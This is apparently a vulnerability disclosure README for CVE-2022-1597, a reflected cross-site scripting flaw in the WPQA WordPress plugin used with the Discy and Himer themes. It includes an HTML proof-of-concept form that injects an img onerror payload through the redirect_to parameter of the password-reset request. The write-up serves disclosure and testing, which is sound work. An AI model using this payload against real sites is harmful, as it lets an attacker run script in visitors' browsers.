 # CVE-2022-1597
 The plugin, used as a companion for the Discy and Himer themes, does not sanitise and escape a parameter on its reset password form which makes it possible to perform Reflected Cross-Site Scripting attacks

## Affected Plugins:
[WPQA](https://codecanyon.net/item/wpqa-builder-forms-addon-for-wordpress/25298161) < 5.4

## Affected Themes:
[DISCY](https://2code.info/discy-social-questions-and-answers-wordpress-theme/)

[HIMER](https://2code.info/himer-social-questions-and-answers-wordpress-theme/)

## POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="user&#95;mail" value="validEmail@domain.com" />
      <input type="hidden" name="form&#95;type" value="wpqa&#95;forget" />
      <input type="hidden" name="action" value="wpqa&#95;ajax&#95;password&#95;process" />
      <input type="hidden" name="redirect&#95;to" value="&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
## Nuclei Template:
[CVE-2022-1597.yaml](CVE-2022-1597.yaml)

![NUCLEI](files/photo.png)

## VIDEO POC:
https://www.youtube.com/watch?v=E2GRtf6prq8

### References:
https://wpscan.com/vulnerability/faff9484-9fc7-4300-bdad-9cd8a30a9a4e

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1597
